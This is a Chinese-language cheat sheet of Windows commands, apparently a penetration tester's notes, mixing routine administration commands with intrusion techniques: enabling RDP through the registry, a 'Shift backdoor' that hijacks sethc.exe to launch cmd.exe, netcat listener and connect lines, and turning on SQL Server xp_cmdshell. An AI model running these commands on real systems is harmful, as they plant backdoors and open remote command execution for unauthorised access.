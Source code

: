 ### 关闭 端口关联进程
	
    netstat -aon | findstr PORT
    tasklist | findstr PID
    taskkill /f /t /im PNAME

### 查看本地 DNS 缓存

    ipconfig /displaydns

### Window常用系统变量

    %ALLUSERSPROFILE%   列出系统所有用户Profile文件位置
    %APPDATA%   列出系统程序数据默认存放位置
    %CD%    当前目录
    %COMPUTERNAME%   计算机名称
    %HOMEPATH%  列出主用户目录（\Users\Administrator）
    %USERNAME%  用户名
    %OS%    操作系统名称
    %TEMP%   当前用户应用程序的临时目录（C:\Users\ADMINI~1\AppData\Local\Temp）

### 注册表打开 3389 端口

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

### Shift 后门

推荐使用修改注册表方式（镜像劫持）

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v debugger /t REG_SZ /d "%SystemRoot%\system32\cmd.exe"


### NC 命令

    nc 192.168.1.100 5678　　连接.100的5678端口
    nc -vv -lp  22222　　　　监听本地22222端口

### 把两张图片的二进制合成一张图片

copy /b 1.jpg+2.jpg 12.jpg

### CMD下FTP相关操作

    ftp　　启动ftp客户端

    open ftp的ip　　打开ftp站点

    会提示输入用户名 密码

    lcd  本机绝对路径     设置本地文件路径

    get  文件名     下载单个文件

    mget  文件夹名  下载多个文件

    put   本地文件   上传本地文件

### SQLServer2008/2012 开启xp_cmdshell

　　sp_configure 'show advanced options', 1;　　允许配置高级选项
　　RECONFIGURE;
　　sp_configure 'xp_cmdshell', 1;　　启用xp_cmdshell ，值为0表示禁用
　　RECONFIGURE;  

　　--执行想要的xp_cmdshell语句
　　Exec xp_cmdshell 'ipconfig'


### 常用系统命令


    msconfig　　打开系统配置

    mspaint　　打开绘图板

    mstsc　　打开远程桌面

    taskmgr　　任务管理器

    eventver　　事件查看器

    start explorer D:　　打开D盘

    regedit　　打开注册表

    clean mgr　　磁盘清理

    lusrmgr.msc　　查看本地组和用户

    gpedit　　查看组策略

    systeminfo　　显示机器的具体属性和配置信息

    tasklist　　显示当前运行的所有任务和服务

